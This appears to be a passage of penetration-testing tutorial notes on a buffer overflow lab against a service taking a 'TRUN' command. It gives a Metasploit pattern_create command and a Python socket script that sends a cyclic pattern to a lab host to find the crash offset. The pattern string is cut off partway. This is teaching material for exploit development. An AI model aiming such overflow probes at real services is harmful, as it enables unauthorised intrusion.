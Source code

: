     <figure><img src="../../../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

    ```bash
    cd /usr/share/metasploit-framework/tools/exploit
    ./pattern_create.rb -l 2200 # 2200 is the length of payload
    ```

    **send this payload to machine**

    *   **1st way**

        ```python
        #!/bin/python3
        import sys,socket
        from time import sleep

        offset="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac>
        try:
                s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
                s.connect(('10.0.2.4',9999))
                s.send(('TRUN / .:/' + offset).encode())
                s.close()
        except:
                print("Error connecting on server")
                sys.exit()
        ```
